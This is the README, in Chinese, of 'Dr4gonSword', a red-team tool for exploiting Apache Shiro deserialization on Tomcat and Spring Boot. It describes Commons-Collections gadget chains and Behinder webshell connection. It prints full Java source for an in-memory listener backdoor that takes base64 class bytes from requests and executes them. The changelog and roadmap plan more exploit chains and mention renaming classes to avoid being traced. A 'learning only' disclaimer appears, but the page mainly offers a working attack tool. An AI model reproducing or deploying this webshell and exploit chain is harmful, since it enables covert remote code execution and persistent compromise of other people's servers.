




# Dr4gonSword

**仅供交流学习漏洞原理,请勿用于非法用途**

- [Shiro](#shiro)
  + [使用方法](#----)
  + [利用链](#---)
  + [内存马和回显方法](#--------)
  + [本地测试过的中间件版本](#-----------)

- [更新记录](#----)
  * [0.0.3](#003)
  * [0.0.2](#002)
- [未来准备更新(可能)](#----------)
- [感谢](#--)

**仅供交流学习漏洞原理,请勿用于非法用途**

版本0.0.3

在红队中发现现有shiro利用工具有些时候会注入内存马失败,于是自己写下了这个小工具,也是为了更好地了解漏洞原理与利用方式

因为刚入门JAVA,所以肯定还有很多不足,代码也写得比较丑陋

目前只有Shiro,后续随着学习会应该加入更多漏洞(大概)

## Shiro

### 使用方法

点击Inject进行注入,然后才能连接冰蝎或者执行命令

连接冰蝎的时候加get参数stage=s





### 利用链

Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer

总结:几乎一样

### 内存马和回显方法

使用listener注入,相比于使用servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况,例如P师傅的shirodemo环境(2021强网杯hard pentest,如下图)




并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)

另外我这边同一个listener同时实现命令执行回显和内存马,命令执行回显可以GBK编码

核心逻辑为实现一个Listener同时继承AbstractTranslet类并且实现ServletRequestListener接口来加载任意类并调用方法

```JAVA
public class Init extends AbstractTranslet implements ServletRequestListener  {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    public Init() throws Exception {
        super();
        super.namesArray = new String[]{"ccdr4gon"};
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardCtx.addApplicationEventListener(this);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            RequestFacade requestfacade= (RequestFacade) sre.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(requestfacade);
            if (request.getParameter("stage").equals("init")) {
                StringBuilder sb = new StringBuilder("");
                BufferedReader br = request.getReader();
                String str;
                while ((str = br.readLine()) != null) {
                    sb.append(str);
                }
                byte[] payload = Base64.getDecoder().decode(sb.toString());
                Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), payload, 0, payload.length);
                clazz.newInstance();
            }
        }catch (Exception ignored){ }
    }
}
```

### 本地测试过的中间件版本

Tomcat 7.0.109 √

Tomcat 8.5.51 √

Tomcat 9.0.46 √

Springboot 2.3.5 √  <tomcat.version>9.0.39</tomcat.version> 

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version>

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0 (gcm)

Tomcat 8.5.51 √ with commons-collections4 dependency




# 更新记录

## 0.0.3

- Behinder内存马兼容性修复并且添加自定义密码(会生成一个随机密码)
- CommonsCollections4依赖的利用链(只是把.decorate改成了.lazyMap)
- 重构了controller生成payload部分的代码结构,使用factory

## 0.0.2 

- 添加Tomcat7利用链(tomcat7巨烦)
- okhttp的https证书全信任，删除了get请求的一些header（为了不触发header too large）
- 添加了GCM加密方式
- 其他记不到了的小修改

# 未来更新(可能)

- 依赖有点问题,目前我是直接把tomcat的lib全加到projectstructure里了
- 把类名改了,用下去的话总感觉会有一天接到溯源的电话
- shiro
  - ~~自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)~~ 0.0.3已更新
  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2已更新
  - ~~commons-collections4利用链~~  0.0.3已更新
  - commonsbeanutils利用链
- fastjson
- weblogic等等更多以后准备学习的JAVA漏洞
- 由于java流只能读取一次,okhttp库的IO目前处于能用就行的丑陋状态,之后看看怎么改改
- 看了比较新版的behinder之后这边考虑要不要把pagecontext删了(删了以后可能连不上旧版的behinder了)
- 一键清除所有listener

# 感谢

phithon

kingkk

j1anFen

Litch1

threedr3am

李三

LandGrey

Lucifaer

等公开发表过Tomcat内存马/回显以及Shiro利用方式文章的师傅

